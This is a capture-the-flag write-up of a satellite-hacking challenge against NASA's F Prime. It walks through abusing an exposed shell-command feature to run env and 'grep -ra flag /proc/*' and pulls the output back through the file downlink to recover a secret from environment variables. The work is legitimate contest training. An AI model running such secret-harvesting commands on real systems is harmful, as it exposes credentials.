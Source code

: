 
#Grade F Prime Beef

### Rapid Unplanned Disassembly 

_88 points, 46 Solves_

Active ADDVulcan players:
<li> supersat
<li> dtechshield

## Challenge Description

Exploit the system, get the passcode, retrieve the flag.

## Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX-XXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

## Connecting

Connect to the challenge on:

```
recent-puzzle.satellitesabove.me:5015
```

Using netcat, you might run:

```
nc recent-puzzle.satellitesabove.me 5015
```

## Solving

Your team's flag for this challenge will look something like:
flag{sierra457871juliet2:___a bunch of unguessable stuff___} 


## Write up by dtechshield

Based on the instructions presented we made a tcp connection to `recent-puzzle.satellitesabove.me` on port `5015` 

```
nc recent-puzzle.satellitesabove.me 5015
```

This presented us with the following output:

```
Ticket please:
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
Starting spacecraft
Starting ground station
Challenge Web Page Starting at http://18.222.149.133:12388
CLI available at 18.222.149.133:12389
```

First we logged in went to the http server:  `http://18.222.149.133:7834/`

Took a look at the page source: 
![Alt text](images/00_fprime_id.PNG "a title")

Identified that the system was using NASA's F Prime - https://github.com/nasa/fprime

Command interface was somewhat familiar from previous hackasat events...

Quickly looking at the interface - we noticed the Commanding tab - started examining the available commands...

![Commands of Interest](images/01_commands_of_interest_highlighted.PNG "commands of interest")


We noticed `fileManager.ShellCommand`

Assuming this was a Unix based system first issued a command to see what is in the current directory:

```
2021-06-27T05:18:31.854Z    0x25d    fileManager.ShellCommand    [ "ls", "test.log" ]
2021-06-27T05:18:57.059Z    0x1f5    fileDownlink.SendFile    [ "test.log", "test.log" ]
```

Looking at the test.log we saw that there was a `satellite.exe`

```
$ cat test.log 

satellite.exe

test.log
```


Downloaded the `satellite.exe` using the `fileDownlink.SendFile` command.


Loaded `satellite.exe` into Ghidra and began our analysis:

```
void FUN_0014f610(long param_1)

{
  char *__s;
  
  FUN_00150820();
  *(undefined4 *)(param_1 + 0x3b0) = 0;
  __s = getenv("SAT_FLAG");
  strlen(__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_replace
            (param_1 + 0x3b8U,0,*(char **)(param_1 + 0x3c0),(ulong)__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::resize
            (param_1 + 0x3b8U,-0x60);
  setenv("SAT_FLAG","ThisIsNotTheFlagYouAreLookingFor",1);
  return;
}

```

Noticed the `SAT_FLAG` environment variable...

Ran echo $SAT_FLAG on the web interface

Downloading the file the team saw

```
 cat flag.txt 
ThisIsNotTheFlagYouAreLookingFor
```

supe    rsat executed  the following commands:

```
2021-06-27T05:33:32.386Z    0x25d    fileManager.ShellCommand    [ "grep -ra flag /proc/*", "grep.log" ]
2021-06-27T05:33:42.489Z    0x1f5    fileDownlink.SendFile    [ "grep.log", "grep.log" ]
```


Contents of `grep.log`:

```
/proc/10/task/10/environ:SHELL=/bin/bashSAT_FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
PWD=/home/space/fprimeLOGNAME=spaceHOME=/home/spaceFLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
USER=spaceSHLVL=0PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/gamesMAIL=/var/mail/spaceOLDPWD=/home/space_=./sa
tellite.exe
```


dtechshield executed the following set of commands:

2021-06-27 06:34:08,(2(0)-1624775648:279639),fileManager.ShellCommand,605,[ ' e n v ' ,   ' t e s t . l o g ' ]
2021-06-27 06:34:21,(2(0)-1624775661:360806),fileDownlink.SendFile,501,[ ' t e s t . l o g ' ,   ' t e s t . l o g ' ]

Contents of `test.log`:

```
MAIL=/var/mail/space
USER=space
SHLVL=0
HOME=/home/space
OLDPWD=/home/space
LOGNAME=space
_=./satellite.exe
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SAT_FLAG=ThisIsNotTheFlagYouAreLookingFor
SHELL=/bin/bash
PWD=/home/space/fprime
FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
```


The initially the `SAT_FLAG` almost send us on our way, but dumping the full set of environment variables the team captured the flag. 

